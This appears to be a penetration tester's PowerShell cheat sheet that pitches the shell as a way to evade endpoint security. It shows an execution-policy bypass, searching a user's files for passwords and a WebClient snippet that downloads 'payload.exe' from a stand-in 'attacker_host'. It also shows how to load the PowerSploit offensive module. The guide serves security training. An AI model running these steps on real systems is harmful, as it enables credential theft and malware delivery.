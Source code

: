 ### PowerShell 4 Pentesters
#### 1.1 Intro
Why PowerShell?  
Run, download or execute code, entirely within the memory process of the powershell executable
letting penetration testers evade endpoint security solutions.  
Living-off-the-Land = using tools that are likely already "trusted" on system

Location  
32bit: C:\windows\system32\WindowsPowershell\*  
64bit: C:\windows\SysWOW64\WindowsPowerShell\*  

C:\> powershell.exe -ExecutionPolicy Bypass ./script.ps1

_1.1.1 Useful Cmdlets_   
//PS = PowerShell 
```
Get-Process
PS C:\> Get-Process chrome,firefox | Sort-Object -Unique | Format-List Path,Id //Get information about specific processes and paths to their executables.
PS C:\> Get-Process -Name "firefox" | Kill //Kills any firefox processes

Get-WmiObject
PS C:\> Get-WmiObject -class win32_operatingsystem | select -Property * //All information related to current operating system
PS C:\> Get-WmiObject -class win32_operatingsystem |Sort-Object -Unique PathName | fl Pathname //Paths to all service executables

Finding Files
PS C:\> Select-String -Path C:\users\christian\Documents\*.txt -Pattern pass* //Search for files of txt extension in user's 
Documents directory containing the string "pass"
PS C:\> Get-Content C:\users\christian\Documents\passwords.txt //Display full contents of file
PS C:\> Get-ChildItem C:\PowerShell\ | Where-Object {$_.Name -match “xls”} //List contents of directory and return files with string in their name (xls)
PS C:\> Get-Service //Lists all services

New-Object
PS C:\> $webclient = New-Object System.Net.WebClient
PS C:\> $payload_url = "https://attacker_host/payload.exe"
PS C:\> $file = "C:\ProgramData\payload.exe"
PS C:\> $webclient.DownloadFile($payload_url,$file)

//Use .NET system class to download a file to a target system. Where the $file variable is location where payload is saved. 

```
_1.1.2 Modules_
```
PS C:\> Get-Module //List all currently imported modules
PS C:\> Import-Module ./module.psm1 //Import module into current PS session

Modules need to be copied into the module path, specified by the PS environment variable, to find these paths:
PS C:\> $Env:PSModulePath

PowerSploit Module
//Download PowerSploit archive, extract it and copy its contents into chosen module directory into folder called "PowerSploit"
PS C:\> Import-Module PowerSploit
PS C:\> Get-Command -Module PowerSploit //list all PowerSploit associated cmdlets
PS C:\> Get-Help Write-HihackDLL //Get help and usage for a specific cmdlet
```
#### 1.2 Offensive PowerShell
```

```
